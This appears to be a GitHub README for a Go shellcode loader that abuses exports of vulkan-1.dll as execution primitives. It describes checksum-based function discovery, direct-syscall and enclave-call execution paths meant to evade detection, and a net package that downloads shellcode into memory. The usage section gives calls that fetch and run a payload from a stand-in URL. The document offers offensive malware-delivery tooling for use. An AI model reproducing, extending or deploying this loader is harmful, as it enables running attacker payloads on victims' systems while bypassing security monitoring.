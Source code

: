 # vulkan loader

a go implementation that uses vulkan api functions as execution primitives for shellcode loading and execution.

## technical overview

the loader consists of three main components:

### finder package
- scans vulkan-1.dll exports to identify compatible functions
- analyzes function bytecode for specific checksum patterns (0x10aded040410aded and 0x10aded020210aded)
- supports two checksum variants:
  - checksumAt0: validates against table[0]
  - checksumAt2: validates against arg1[2] with conditional logic
- identifies table access patterns and function indices through disassembly
- handles jump table resolution for indirect calls

### vulkan package  
- implements two execution methods (vulkan1 and vulkan2)
- creates egstr structure containing function table and extended memory
- vulkan1: uses direct syscalls (ntAllocateVirtualMemory, ntWriteVirtualMemory, ntProtectVirtualMemory, ntCreateThreadEx)
- vulkan2: uses heap allocation via getProcessExecutableHeap and ldrCallEnclave

### net package
- handles remote shellcode retrieval
- downloads payload directly into memory

## execution flow

1. loader identifies compatible vulkan function through pattern matching
2. creates execution context with appropriate checksum variant
3. sets up function table with syscall callbacks
4. downloads shellcode from remote url
5. executes through vulkan driver function calls

## structure details

the egstr structure contains:
- v1: pointer to function table
- v2: pointer to extended memory (for conditional variants)
- v3: checksum value for validation
- v4: function call parameter
- table: 256-entry function pointer array
- extmem: 8kb extended memory region

## dependencies

- github.com/carved4/go-wincall for windows api interactions
- standard go libraries for binary parsing and memory operations

## usage

```go
vulkan.Vulkan1("http://example.com/payload.bin")  // syscall method
vulkan.Vulkan2("http://example.com/payload.bin")  // heap allocation method
```

the loader automatically selects appropriate vulkan functions and configures execution context based on detected patterns.
